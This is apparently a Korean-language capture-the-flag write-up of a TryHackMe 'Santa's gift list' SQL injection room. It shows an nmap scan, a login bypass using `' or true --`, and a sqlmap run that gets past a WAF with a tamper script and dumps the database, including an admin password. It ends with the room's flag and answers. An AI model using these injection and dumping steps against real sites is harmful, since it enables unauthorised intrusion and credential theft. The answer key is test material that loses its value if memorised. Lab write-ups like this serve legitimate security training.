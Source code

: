 # Day 5 | Web Exploitation Someone stole Santa's gift list! 

## Workstation
- Virtual Box : VMware Fusion 12.1.2
- OS : kali-linux-2021.1

## Walkthrough
Visit the vulnerable application in Firefox, find Santa's secret login panel and bypass the login. Use some of the commands and tools covered throughout today's task to answer Questions #3 to #6.

Santa reads some documentation that he wrote when setting up the application, it reads:

Santa's TODO: Look at alternative database systems that are better than sqlite. Also, don't forget that you installed a Web Application Firewall (WAF) after last year's attack. In case you've forgotten the command, you can tell SQLMap to try and bypass the WAF by using `--tamper=space2commen`

***

![attackbox]()

Without using directory brute forcing, what's Santa's secret login panel?

> /santapanel

힌트를 확인하면 알 수 있다.

<img src="" width="800px" height="200px" title="hint" alt="hint"></img><br/>

Visit Santa's secret login panel and bypass the login using SQLi

nmap 으로 포트를 조사한다.

```
$ sudo nmap -sC -sV 10.10.70.181                    
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-25 04:26 EDT
Nmap scan report for 10.10.70.181
Host is up (0.28s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 35:30:91:45:b9:d1:ed:5a:13:42:3e:20:95:6d:c7:b7 (RSA)
|   256 f5:69:6a:7b:c8:ac:89:b5:38:93:50:2f:05:24:22:70 (ECDSA)
|_  256 8f:4d:37:ba:40:12:05:fa:f0:e6:d6:82:fb:65:52:e8 (ED25519)
3000/tcp open  http    PHP cli server 5.5 or later (PHP 7.4.12)
|_http-title: Really Insecure PHP Page
3306/tcp open  mysql   MySQL 8.0.22
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.22
|   Thread ID: 298
|   Capabilities flags: 65535
|   Some Capabilities: SupportsCompression, Support41Auth, Speaks41ProtocolOld, IgnoreSigpipes, SupportsTransactions, FoundRows, LongColumnFlag, SwitchToSSLAfterHandshake, DontAllowDatabaseTableColumn, InteractiveClient, Speaks41ProtocolNew, IgnoreSpaceBeforeParenthesis, ODBCClient, SupportsLoadDataLocal, LongPassword, ConnectWithDatabase, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: >\x0D6r[5[\x0DpF'5]0)\x0B\x14\x10@*
|_  Auth Plugin Name: caching_sha2_password
| ssl-cert: Subject: commonName=MySQL_Server_8.0.22_Auto_Generated_Server_Certificate
| Not valid before: 2020-11-19T19:12:24
|_Not valid after:  2030-11-17T19:12:24
|_ssl-date: TLS randomness does not represent time
8000/tcp open  http    Gunicorn 20.0.4
|_http-server-header: gunicorn/20.0.4
|_http-title: Santa's forum
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.51 seconds
```

8000번 포트에 http 서버가 열려있다.

![ip]()

비밀 로그인 패널이 있는 주소로 이동한다.

![santapanel]()

username 부분에 `' or true --`를 입력 후 login을 시도하면 다음과 같이 SQL Injection에 성공했다.

![username]()

paul로 검색을 해보면 아무것도 나오지 않는다.

![paul]()

해당 사이트를 sqlmap을 사용하기 위해 burpsuite를 사용한다.

```
$ burpsuite
```

버프스위트를 사용하기 위해 프록시 설정을 해준다.

![proxy]()

프록시 설정 후 해당 페이지를 새로고침하면 버프스위트 proxy 부분에 인터셉트 된다.

![intercept]()

이 부분을 저장한다. 마우스 우클릭 하면 Save Item 버튼을 클릭하면 된다.

![save]()

해당 페이지를 저장했다면 터미널에서 sqlmap을 사용한다.

```
$ sudo sqlmap -r ~/THM/sqlmap --dump-all --tamper space2comment --dbms sqlite 
        ___
       __H__                                                                                                               
 ___ ___[.]_____ ___ ___  {1.5.8#stable}                                                                                   
|_ -| . [,]     | .'| . |                                                                                                  
|___|_  [(]_|_|_|__,|  _|                                                                                                  
      |_|V...       |_|   http://sqlmap.org                                                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 04:42:19 /2021-08-25/

[04:42:19] [INFO] parsing HTTP request from '/home/jasper/THM/sqlmap'
[04:42:19] [INFO] loading tamper module 'space2comment'
[04:42:20] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: search (GET)
    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: search=jasper' UNION ALL SELECT CHAR(113,106,113,112,113)||CHAR(121,112,112,116,115,108,99,82,89,122,107,102,104,107,121,110,77,105,87,70,104,118,90,97,100,78,74,87,88,84,113,74,79,109,82,88,79,76,101,115)||CHAR(113,122,112,112,113),NULL-- QKAu
---
[04:42:20] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[04:42:20] [INFO] testing SQLite
[04:42:21] [INFO] confirming SQLite
[04:42:21] [INFO] actively fingerprinting SQLite
[04:42:21] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[04:42:21] [INFO] sqlmap will dump entries of all tables from all databases now
[04:42:21] [INFO] fetching tables for database: 'SQLite_masterdb'
[04:42:21] [INFO] fetching columns for table 'sequels' 
[04:42:21] [INFO] fetching entries for table 'sequels'
Database: <current>
Table: sequels
[22 entries]
+-------------+-----+----------------------------+
| kid         | age | title                      |
+-------------+-----+----------------------------+
| James       | 8   | shoes                      |
| John        | 4   | skateboard                 |
| Robert      | 17  | iphone                     |
| Michael     | 5   | playstation                |
| William     | 6   | xbox                       |
| David       | 6   | candy                      |
| Richard     | 9   | books                      |
| Joseph      | 7   | socks                      |
| Thomas      | 10  | 10 McDonalds meals         |
| Charles     | 3   | toy car                    |
| Christopher | 8   | air hockey table           |
| Daniel      | 12  | lego star wars             |
| Matthew     | 15  | bike                       |
| Anthony     | 3   | table tennis               |
| Donald      | 4   | fazer chocolate            |
| Mark        | 17  | wii                        |
| Paul        | 9   | github ownership           |
| James       | 8   | finnish-english dictionary |
| Steven      | 11  | laptop                     |
| Andrew      | 16  | rasberry pie               |
| Kenneth     | 19  | TryHackMe Sub              |
| Joshua      | 12  | chair                      |
+-------------+-----+----------------------------+

[04:42:21] [INFO] table 'SQLite_masterdb.sequels' dumped to CSV file '/root/.local/share/sqlmap/output/10.10.70.181/dump/SQLite_masterdb/sequels.csv'                                                                                                 
[04:42:21] [INFO] fetching columns for table 'users' 
[04:42:21] [INFO] fetching entries for table 'users'
Database: <current>
Table: users
[1 entry]
+------------------+----------+
| password         | username |
+------------------+----------+
| EhCNSWzzFP6sc7gB | admin    |
+------------------+----------+

[04:42:21] [INFO] table 'SQLite_masterdb.users' dumped to CSV file '/root/.local/share/sqlmap/output/10.10.70.181/dump/SQLite_masterdb/users.csv'                                                                                                     
[04:42:21] [INFO] fetching columns for table 'hidden_table' 
[04:42:21] [INFO] fetching entries for table 'hidden_table'
Database: <current>
Table: hidden_table
[1 entry]
+-----------------------------------------+
| flag                                    |
+-----------------------------------------+
| thmfox{All_I_Want_for_Christmas_Is_You} |
+-----------------------------------------+

[04:42:21] [INFO] table 'SQLite_masterdb.hidden_table' dumped to CSV file '/root/.local/share/sqlmap/output/10.10.70.181/dump/SQLite_masterdb/hidden_table.csv'                                                                                       
[04:42:21] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.70.181'

[*] ending @ 04:42:21 /2021-08-25/
```

나온 결과로 다음 문제를 풀어나가면 된다.

How many entries are there in the gift database?

> 22

What did Paul ask for?

> github ownership

What is the flag?

> thmfox{All_I_Want_for_Christmas_Is_You}

What is admin's password?

> EhCNSWzzFP6sc7gB